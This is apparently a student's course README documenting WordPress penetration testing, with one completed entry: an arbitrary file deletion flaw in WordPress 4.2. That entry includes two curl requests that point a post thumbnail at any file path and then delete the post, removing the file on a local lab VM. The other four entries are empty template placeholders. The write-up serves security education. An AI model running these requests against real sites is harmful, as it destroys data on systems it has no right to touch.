

# Project 7 - WordPress Pentesting

Time spent: 3 hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

### 1. CVE-2018-20714 Arbitrary File Deletion
  - [ ] Summary: Post thumbnail can be set to an arbitrary path, which is deleted when the post is deleted. Requires author account.
    - Vulnerability types: Aribtary file deletion
    - Tested in version: 4.2
    - Fixed in version: 4.9.7
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
     1. Upload a new media
     2. Note the media ID
     3. Go to http://wpdistillery.vm/wp-admin/post.php?post={mediaId}&action=edit and view the page source to get the post wpNonce
     4. Make the following post request to update the thumbnail with the path to the file you wish to delete.
     ```
     curl -v 'http://wpdistillery.vm/wp-admin/post.php?post=10' -H 'Cookie: {validSessionCookie}' -d 'action=editattachment&_wpnonce={wpNonce}&thumb={pathToFileToDelete}'
     ```
     5. Go back to the edit post page and find the delete post wpNonce value and note it down.
     6. Post the following URL with the delete post nonce.
     ```
     curl -v 'http://wpdistillery.vm/wp-admin/post.php?post=10' -H 'Cookie: {validSessionCookie}' -d 'action=delete&_wpnonce={deleteNonce}'
     ```
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/4.2/src/wp-includes/post.php?rev=32282)
### 2. (Required) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
### 3. (Required) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
### 4. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
### 5. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php) 

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
